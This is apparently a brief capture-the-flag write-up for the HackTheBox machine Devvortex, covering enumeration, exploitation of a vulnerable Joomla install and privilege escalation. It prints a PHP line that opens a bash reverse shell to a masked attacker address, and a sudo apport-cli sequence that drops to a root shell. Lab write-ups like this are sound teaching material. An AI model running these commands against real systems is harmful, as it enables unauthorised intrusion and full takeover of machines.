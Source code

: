 ```yaml
---
layout: post
title: "Devvortex 8aaf1edae1e645f8a3502c240817c61c"
date:   2025-07-10 12:05:57 -0400
categories: writeups
---
```


# Devvortex

HackTheBox: Easy

<aside>
💡 Devvortex is a linux easy machine where we can practice fuzzing, exploiting vulnerabilities exposed, seversing shell’s and hashing.

</aside>

## 1: Enumeration

- Scanning ports

![Untitled]({{ '/assets/images/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7_Untitled.png' | relative_url }})

Let’s look for some subdomains

![Untitled]({{ '/assets/images/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7_Untitled_1.png' | relative_url }})

FUZZ some routes

![Untitled]({{ '/assets/images/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7_Untitled_2.png' | relative_url }})

![Untitled]({{ '/assets/images/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7_Untitled_3.png' | relative_url }})

We can see a log in powered by joomla, which has its own scanning tool

![Untitled]({{ '/assets/images/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7_Untitled_4.png' | relative_url }})

![Untitled]({{ '/assets/images/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7_Untitled_5.png' | relative_url }})

Interesting, a version with a vulnerability

![Untitled]({{ '/assets/images/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7_Untitled_6.png' | relative_url }})

![Untitled]({{ '/assets/images/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7_Untitled_7.png' | relative_url }})

## 2: User flag

With this we break into admin interface, we can see a lot of .php files(**System -> Templates -> Administrator Templates.**), we can inject a rev shell

```bash
system('bash -c"bash -i > & /dev/tcp/10.10.00.000/0000 0>&1"');
```

We dive into as data, and we can find at /etc/passwod a logan user with creds for sql database

![Untitled]({{ '/assets/images/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7_Untitled_8.png' | relative_url }})

We hash and got the user flag

![Untitled]({{ '/assets/images/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7_Untitled_9.png' | relative_url }})

## 3: Priv esc

![Untitled]({{ '/assets/images/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7/d25d6a12-05b4-4c8e-b3dd-20d8420b97d1-export-0e5fc15f-de53-40ea-ab02-e6044c5b62e7_Untitled_10.png' | relative_url }})

There is a vulnerability to esc priv we are gonna make it in this way:

```bash
sleep 60 & (segundo plano)
sudo /usr/bin/apport-cli -c /var/crash/sleep.0.crash
view report
!/bin/bash
Root...
```